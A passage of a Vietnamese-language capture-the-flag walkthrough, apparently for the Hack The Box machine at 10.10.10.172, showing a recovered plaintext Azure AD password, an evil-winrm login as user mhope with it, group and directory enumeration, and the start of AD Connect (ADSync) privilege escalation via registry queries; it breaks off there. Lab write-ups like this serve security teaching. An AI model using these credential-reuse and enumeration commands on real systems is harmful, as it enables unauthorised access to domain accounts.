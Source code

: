 ```
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

File này chứa password Azure AD `4n0therD4y@n0th3r$`. Kiểm tra xem `mhope` có sử dụng password này trong local AD không. Có thể sử dụng WinRM để kiểm tra thông tin xác thực, vì biết tài khoản này nằm trong group `Remote Management Users`.

```
evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```

Điều này thành công, mặc dù lệnh `whoami /priv` cho thấy user hiện tại không có đặc quyền. Tuy nhiên, `whoami /groups` cho thấy tài khoản này là thành viên của group `MEGABANK\Azure Admins`.

User flag nằm trong `C:\Users\mhope\Desktop`.

## Privilege Escalation

Khi điều hướng đến `C:\Program Files\`, có thể thấy cả `Microsoft SQL Server` và `AD Connect` đều được cài đặt. Có nhiều bài viết được public online về các lỗ hổng và cơ hội leo thang đặc quyền với dịch vụ Azure AD (AAD) Sync.

```
*Evil-WinRM* PS C:\> cd Progra~1
*Evil-WinRM* PS C:\Program Files> ls

    Directory: C:\Program Files

Mode                LastWriteTime    Length Name 

----                -------------    ------ ---- 

d-----          1/2/2020 9:36 PM            Common Files 
d-----          1/2/2020 2:46 PM            internet explorer 
d-----          1/2/2020 2:38 PM            Microsoft Analysis Services 
d-----          1/2/2020 3:37 PM            Microsoft Azure Active Directory
Connect
d-----          1/2/2020 3:02 PM            Microsoft Azure AD Connect Health Sync
d-----          1/2/2020 2:53 PM            Microsoft Azure AD Sync 
d-----          1/2/2020 2:31 PM            Microsoft SQL Server
```

Tìm hiểu phiên bản AD Connect. Theo tài liệu của Microsoft, tên của dịch vụ chịu trách nhiệm đồng bộ local AD với Azure AD là `ADSync`. Không thấy tham chiếu nào về điều này khi chạy `Get-Process` và việc cố gắng chạy `tasklist` dẫn đến lỗi `Access Denied`.

Cũng có thể thử enum các dịch vụ bằng lệnh cmdlet `PowerShell Get-Service` hoặc bằng cách gọi lệnh `wmic.exe service get name`, `sc.exe query state= all` hoặc `net.exe start`, nhưng cũng bị denied access. Thay vào đó, có thể enum phiên bản dịch vụ bằng Registry.

```
Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync
```
